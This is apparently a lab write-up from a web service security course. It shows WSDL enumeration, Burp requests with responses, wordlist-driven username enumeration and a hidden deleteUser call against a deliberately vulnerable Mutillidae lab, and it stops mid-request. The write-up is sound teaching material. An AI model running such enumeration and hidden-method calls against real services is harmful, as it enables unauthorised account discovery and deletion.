





# Web Service Security Testing

In the complex world of web applications, web services play a pivotal role in enabling the seamless exchange of data and functionality between applications over the internet. Web services, particularly those built using the SOAP (Simple Object Access Protocol) framework, have become essential components of modern web applications. However, the convenience they offer comes with inherent security challenges that demand expert attention.

In this course you will uncover the core principles of web application service security testing with a specialized focus on SOAP-based web services. This course will dive deep into the world of web services, the backbone of modern applications, enabling seamless data exchange and functionality sharing across the digital landscape.
It will explore the critical security vulnerabilities that threaten these services, including SQL Injection, Command Injection and Cross-Site Scripting (XSS). This course will provide you with hands-on experience in identifying, assessing, and exploiting these vulnerabilities and will equip you with essential skills required to test web applications and their underlying SOAP-based web services in an ever-evolving cyber threat landscape.

---

## Course Introduction

### Course Topic Overview

- Web Service Security Testing
- SOAP Web Service Security Testing

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with OWASP ZAP/Burp Suite

### Learning Objectives

- You will have a solid understanding of what web services are, how they work and how they differ from traditional APIs and web applications.
- You will have an understanding of the different types of Web Service implementations (XML-RPC, SOAP, REST etc) and how they work.
- You will have an understanding of the WSDL language and how it is used to describe the functionality of web services.
- You will have an understanding of how to methodologically test a SOAP based web service for common vulnerabilities.
- You will be able to find and identify WSDL files to discover methods and operations pertinent to the web service.
- You will be able to invoke hidden methods and test web services for common vulnerabilities like SQL injection and command injection.

---
---

## Testing SOAP-based Web Service

### WSDL Disclosure and Method Enumeration

#### Lab Environment

In this lab, you will learn to attack SOAP-based web services. More specifically, you would enumerate the WSDL file to discover and invoke hidden methods, bypass SOAP body restriction and perform SQL and command injection attacks on the provided web service.

- WSDL Enumeration
- Invoking hidden methods
- Bypass SOAP body restrictions
- SQL Injection
- Command Injection

In this lab environment, the user will get access to a Kali GUI instance. A slightly modified instance of the `Mutillidae` web application can be accessed using the tools installed on Kali at `http://demo.ine.local`.

**Objective**: Perform the following attacks on the provided SOAP-based web service and collect all three flags:
- `flag1` and `flag2` would be retrieved by invoking the hidden methods.  
- `flag3` would be invoked from the server file system after exploiting the command injection vulnerability.

**Web Services - WSDL Enumeration**

#### Lab Solution





`curl 'http://demo.ine.local/webservices/soap/ws-user-account.php?wsdl'`:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<definitions xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:tns="urn:ws-user-account" xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/" xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/" xmlns="http://schemas.xmlsoap.org/wsdl/" targetNamespace="urn:ws-user-account">
<types>
<xsd:schema targetNamespace="urn:ws-user-account"
>
 <xsd:import namespace="http://schemas.xmlsoap.org/soap/encoding/" />
 <xsd:import namespace="http://schemas.xmlsoap.org/wsdl/" />
</xsd:schema>
</types>
<message name="getUserRequest">📌
  <part name="username" type="xsd:string" /></message>📌
<message name="getUserResponse">
  <part name="return" type="xsd:xml" /></message>
<message name="createUserRequest">
  <part name="username" type="xsd:string" />
  <part name="password" type="xsd:string" />
  <part name="signature" type="xsd:string" /></message>
<message name="createUserResponse">
  <part name="return" type="xsd:xml" /></message>
<message name="updateUserRequest">📌
  <part name="username" type="xsd:string" />📌
  <part name="password" type="xsd:string" />📌
  <part name="signature" type="xsd:string" /></message>
<message name="updateUserResponse">
  <part name="return" type="xsd:xml" /></message>
<message name="getAdminInfoRequest"></message>📌
<message name="getAdminInfoResponse">
  <part name="return" type="xsd:xml" /></message>
<message name="deleteUserRequest"> 📌
  <part name="username" type="xsd:string" /> 📌
  <part name="password" type="xsd:string" /></message> 📌
<message name="deleteUserResponse">
  <part name="return" type="xsd:xml" /></message>
<portType name="ws-user-accountPortType">
  <operation name="getUser">
    <documentation>Fetches user information if user exists else returns error message 📌
                &lt;br/&gt;
                &lt;br/&gt;Sample Request (Copy and paste into Burp Repeater)
                &lt;br/&gt;
                &lt;br/&gt;POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1 📌
                &lt;br/&gt;Accept-Encoding: gzip,deflate
                &lt;br/&gt;Content-Type: text/xml;charset=UTF-8
                &lt;br/&gt;Content-Length: 458
                &lt;br/&gt;Host: localhost
                &lt;br/&gt;Connection: Keep-Alive
                &lt;br/&gt;User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
                &lt;br/&gt;
                &lt;br/&gt;&amp;lt;soapenv:Envelope xmlns:xsi=&amp;quot;http://www.w3.org/2001/XMLSchema-instance&amp;quot; xmlns:xsd=&amp;quot;http://www.w3.org/2001/XMLSchema&amp;quot; xmlns:soapenv=&amp;quot;http://schemas.xmlsoap.org/soap/envelope/&amp;quot; xmlns:urn=&amp;quot;urn:ws-user-account&amp;quot;&amp;gt;
                &lt;br/&gt;   &amp;lt;soapenv:Header/&amp;gt;
                &lt;br/&gt;   &amp;lt;soapenv:Body&amp;gt;
                &lt;br/&gt;      &amp;lt;urn:getUser soapenv:encodingStyle=&amp;quot;http://schemas.xmlsoap.org/soap/encoding/&amp;quot;&amp;gt;
                &lt;br/&gt;         &amp;lt;username xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Jeremy&amp;lt;/username&amp;gt;
                &lt;br/&gt;      &amp;lt;/urn:getUser&amp;gt;
                &lt;br/&gt;   &amp;lt;/soapenv:Body&amp;gt;
                &lt;br/&gt;&amp;lt;/soapenv:Envelope&amp;gt;</documentation>
    <input message="tns:getUserRequest"/>
    <output message="tns:getUserResponse"/>
  </operation>
  <operation name="createUser">
    <documentation>Creates new user account
                        &lt;br/&gt;
                        &lt;br/&gt;Sample Request (Copy and paste into Burp Repeater)
                        &lt;br/&gt;
                        &lt;br /&gt;POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1
                        &lt;br /&gt;Accept-Encoding: gzip,deflate
                        &lt;br /&gt;Content-Type: text/xml;charset=UTF-8
                        &lt;br /&gt;Content-Length: 587
                        &lt;br /&gt;Host: localhost
                        &lt;br /&gt;Connection: Keep-Alive
                        &lt;br /&gt;User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
                        &lt;br /&gt;
                        &lt;br /&gt;&amp;lt;soapenv:Envelope xmlns:xsi=&amp;quot;http://www.w3.org/2001/XMLSchema-instance&amp;quot; xmlns:xsd=&amp;quot;http://www.w3.org/2001/XMLSchema&amp;quot; xmlns:soapenv=&amp;quot;http://schemas.xmlsoap.org/soap/envelope/&amp;quot; xmlns:urn=&amp;quot;urn:ws-user-account&amp;quot;&amp;gt;
                        &lt;br /&gt;   &amp;lt;soapenv:Header/&amp;gt;
                        &lt;br /&gt;   &amp;lt;soapenv:Body&amp;gt;
                        &lt;br /&gt;      &amp;lt;urn:createUser soapenv:encodingStyle=&amp;quot;http://schemas.xmlsoap.org/soap/encoding/&amp;quot;&amp;gt;
                        &lt;br /&gt;         &amp;lt;username xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Joe2&amp;lt;/username&amp;gt;
                        &lt;br /&gt;         &amp;lt;password xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Holly&amp;lt;/password&amp;gt;
                        &lt;br /&gt;         &amp;lt;signature xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Try Harder&amp;lt;/signature&amp;gt;
                        &lt;br /&gt;      &amp;lt;/urn:createUser&amp;gt;
                        &lt;br /&gt;   &amp;lt;/soapenv:Body&amp;gt;
                        &lt;br /&gt;&amp;lt;/soapenv:Envelope&amp;gt;</documentation>
    <input message="tns:createUserRequest"/>
    <output message="tns:createUserResponse"/>
  </operation>
  <operation name="updateUser">
    <documentation>If account exists, updates existing user account else creates new user account
                        &lt;br/&gt;
                        &lt;br/&gt;Sample Request (Copy and paste into Burp Repeater)
                        &lt;br/&gt;
                        &lt;br /&gt;POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1
                        &lt;br /&gt;Accept-Encoding: gzip,deflate
                        &lt;br /&gt;Content-Type: text/xml;charset=UTF-8
                        &lt;br /&gt;Content-Length: 587
                        &lt;br /&gt;Host: localhost
                        &lt;br /&gt;Connection: Keep-Alive
                        &lt;br /&gt;User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
                        &lt;br /&gt;
                        &lt;br /&gt;&amp;lt;soapenv:Envelope xmlns:xsi=&amp;quot;http://www.w3.org/2001/XMLSchema-instance&amp;quot; xmlns:xsd=&amp;quot;http://www.w3.org/2001/XMLSchema&amp;quot; xmlns:soapenv=&amp;quot;http://schemas.xmlsoap.org/soap/envelope/&amp;quot; xmlns:urn=&amp;quot;urn:ws-user-account&amp;quot;&amp;gt;
                        &lt;br /&gt;   &amp;lt;soapenv:Header/&amp;gt;
                        &lt;br /&gt;   &amp;lt;soapenv:Body&amp;gt;
                        &lt;br /&gt;      &amp;lt;urn:updateUser soapenv:encodingStyle=&amp;quot;http://schemas.xmlsoap.org/soap/encoding/&amp;quot;&amp;gt;
                        &lt;br /&gt;         &amp;lt;username xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Joe2&amp;lt;/username&amp;gt;
                        &lt;br /&gt;         &amp;lt;password xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Holly&amp;lt;/password&amp;gt;
                        &lt;br /&gt;         &amp;lt;signature xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Try Harder&amp;lt;/signature&amp;gt;
                        &lt;br /&gt;      &amp;lt;/urn:updateUser&amp;gt;
                        &lt;br /&gt;   &amp;lt;/soapenv:Body&amp;gt;
                        &lt;br /&gt;&amp;lt;/soapenv:Envelope&amp;gt;</documentation>
    <input message="tns:updateUserRequest"/>
    <output message="tns:updateUserResponse"/>
  </operation>
  <operation name="getAdminInfo"> 📌
    <documentation>If account for &quot;admin&quot; exists, returns non-sensitive account details
                        &lt;br/&gt;
                        &lt;br/&gt;Sample Request (Copy and paste into Burp Repeater)
                        &lt;br/&gt;
                        &lt;br/&gt;POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1
                        &lt;br/&gt;Accept-Encoding: gzip,deflate
                        &lt;br/&gt;Content-Type: text/xml;charset=UTF-8
                        &lt;br/&gt;Content-Length: 587
                        &lt;br/&gt;Host: localhost
                        &lt;br/&gt;Connection: Keep-Alive
                        &lt;br/&gt;User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
                        &lt;br/&gt;
                        &lt;br/&gt;&amp;lt;soapenv:Envelope xmlns:xsi=&amp;quot;http://www.w3.org/2001/XMLSchema-instance&amp;quot; xmlns:xsd=&amp;quot;http://www.w3.org/2001/XMLSchema&amp;quot; xmlns:soapenv=&amp;quot;http://schemas.xmlsoap.org/soap/envelope/&amp;quot; xmlns:urn=&amp;quot;urn:ws-user-account&amp;quot;&amp;gt;
                        &lt;br/&gt;   &amp;lt;soapenv:Header/&amp;gt;
                        &lt;br/&gt;   &amp;lt;soapenv:Body&amp;gt;
                        &lt;br/&gt;      &amp;lt;urn:getAdminInfo soapenv:encodingStyle=&amp;quot;http://schemas.xmlsoap.org/soap/encoding/&amp;quot;&amp;gt;
                        &lt;br/&gt;      &amp;lt;/urn:getAdminInfo&amp;gt;
                        &lt;br/&gt;   &amp;lt;/soapenv:Body&amp;gt;
                        &lt;br/&gt;&amp;lt;/soapenv:Envelope&amp;gt;
                        </documentation>
    <input message="tns:getAdminInfoRequest"/>
    <output message="tns:getAdminInfoResponse"/>
  </operation>
  <operation name="deleteUser">
    <documentation>If account exists, deletes user account
                        &lt;br/&gt;
                        &lt;br/&gt;Sample Request (Copy and paste into Burp Repeater)
                        &lt;br/&gt;
                        &lt;br/&gt;POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1
                        &lt;br/&gt;Accept-Encoding: gzip,deflate
                        &lt;br/&gt;Content-Type: text/xml;charset=UTF-8
                        &lt;br/&gt;Content-Length: 587
                        &lt;br/&gt;Host: localhost
                        &lt;br/&gt;Connection: Keep-Alive
                        &lt;br/&gt;User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
                        &lt;br/&gt;
                        &lt;br/&gt;&amp;lt;soapenv:Envelope xmlns:xsi=&amp;quot;http://www.w3.org/2001/XMLSchema-instance&amp;quot; xmlns:xsd=&amp;quot;http://www.w3.org/2001/XMLSchema&amp;quot; xmlns:soapenv=&amp;quot;http://schemas.xmlsoap.org/soap/envelope/&amp;quot; xmlns:urn=&amp;quot;urn:ws-user-account&amp;quot;&amp;gt;
                        &lt;br/&gt;   &amp;lt;soapenv:Header/&amp;gt;
                        &lt;br/&gt;   &amp;lt;soapenv:Body&amp;gt;
                        &lt;br/&gt;      &amp;lt;urn:deleteUser soapenv:encodingStyle=&amp;quot;http://schemas.xmlsoap.org/soap/encoding/&amp;quot;&amp;gt;
                        &lt;br/&gt;         &amp;lt;username xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Joe&amp;lt;/username&amp;gt;
                        &lt;br/&gt;         &amp;lt;password xsi:type=&amp;quot;xsd:string&amp;quot;&amp;gt;Holly&amp;lt;/password&amp;gt;
                        &lt;br/&gt;      &amp;lt;/urn:deleteUser&amp;gt;
                        &lt;br/&gt;   &amp;lt;/soapenv:Body&amp;gt;
                        &lt;br/&gt;&amp;lt;/soapenv:Envelope&amp;gt;
                        </documentation>
    <input message="tns:deleteUserRequest"/>
    <output message="tns:deleteUserResponse"/>
  </operation>
</portType>
<binding name="ws-user-accountBinding" type="tns:ws-user-accountPortType">
  <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
  <operation name="getUser"> 📌
    <soap:operation soapAction="urn:ws-user-account#getUser" style="rpc"/> 📌
    <input><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
    <output><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
  </operation>
  <operation name="createUser">
    <soap:operation soapAction="urn:ws-user-account#createUser" style="rpc"/>
    <input><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
    <output><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
  </operation>
  <operation name="updateUser"> 📌
    <soap:operation soapAction="urn:ws-user-account#updateUser" style="rpc"/> 📌
    <input><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
    <output><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
  </operation>
  <operation name="getAdminInfo"> 📌
    <soap:operation soapAction="urn:ws-user-account#getAdminInfo" style="rpc"/> 📌
    <input><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
    <output><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
  </operation>
  <operation name="deleteUser"> 📌
    <soap:operation soapAction="urn:ws-user-account#deleteUser" style="rpc"/> 📌
    <input><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
    <output><soap:body use="encoded" namespace="urn:ws-user-account" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
  </operation>
</binding>
<service name="ws-user-account">
  <port name="ws-user-accountPort" binding="tns:ws-user-accountBinding">
    <soap:address location="http://demo.ine.local/webservices/soap/ws-user-account.php"/>
  </port>
</service>
```



`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1 📌
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local 📌
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 📌
<username xsi:type="xsd:string">Jeremy</username> 📌
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK 📌
Date: Fri, 29 Nov 2024 14:56:54 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=gkc90b303rl0p5rid604coe3i4; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 643
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="Results for Jeremy"><account><username>jeremy</username> 📌<signature>d1373 1337 speak</signature></account></accounts></return></ns1:getUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1 📌
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 426
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<username xsi:type="xsd:string">Test</username> 📌
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK 📌
Date: Fri, 29 Nov 2024 15:13:47 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=12a4o8vslbh0jon3qt4r4jto91; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 556
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="User Test does not exist}" /></return></ns1:getUserResponse> 📌</SOAP-ENV:Body></SOAP-ENV:Envelope>
```

`burpsuite` > `Intruder` > `Payloads` = `Payload Options: Load: /usr/share/metasploit-framework/data/wordlists/unix_users.txt` > `Start attack`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<username xsi:type="xsd:string">§username§</username>
</urn:getUser>
</soapenv:Body>
</soapenv:Envelope>
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 15:03:56 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=i4ghv5g31jluhgnohegqnvner0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-SOAP-Server: NuSOAP/0.9.5 (1.123)
Vary: Accept-Encoding
Content-Length: 634
Connection: close
Content-Type: text/xml; charset=ISO-8859-1

<?xml version="1.0" encoding="ISO-8859-1"?><SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getUserResponse xmlns:ns1="urn:ws-user-account"><return xsi:type="xsd:xml"><accounts message="Results for admin"><account><username>admin</username> 🚩<signature>g0t r00t?</signature></account></accounts></return> 🚩</ns1:getUserResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

### Invoking Hidden Methods

#### Lab Environment

**Web Services - Invoking hidden methods**

#### Lab Solution

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /webservices/soap/ws-user-account.php HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 428
Host: demo.ine.local
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account">
<soapenv:Header/>
<soapenv:Body>
<urn:deleteUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 📌
<username xsi:type="xsd:string">Jeremy</username>
</urn:deleteUser>
